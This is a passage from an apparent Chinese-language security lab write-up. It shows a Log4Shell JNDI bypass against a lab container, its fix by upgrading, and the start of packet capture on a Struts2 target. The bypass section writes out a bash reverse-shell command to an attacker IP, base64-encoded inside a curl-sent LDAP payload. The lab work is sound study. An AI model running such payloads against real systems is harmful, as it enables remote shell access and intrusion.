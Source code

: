 ##### 绕过

再次使用上次的命令’
```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'

# Base64 编码后移除填充符 `=`，并替换特殊符号
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=' | sed 's/+/%2B/g')

# 发送请求（注意不再手动编码 `=`）
curl -G "http://192.168.8.129:51707/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
发现还是可以有反弹shell<br>
上文中已经发现log4j不能访问，此处可能是因为有其他JNDI被执行，或者在其他的组件的core中仍然存在其他的JNDI执行的部分

##### 修复

选择了升级的选项，在升级之后再次执行以上内容，发现攻击者主机上没有内容输出，说明无法访问到容器内，此时显然已经修复

### DMZ之漏洞利用检测部分

#### 攻破第一个靶标
1. 在受害者主机中启用抓包：
```bash
docker ps #查看struts2-cve-2020_17530:latest容器的ID
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```
![](./images/对入口靶标进行抓包.png)
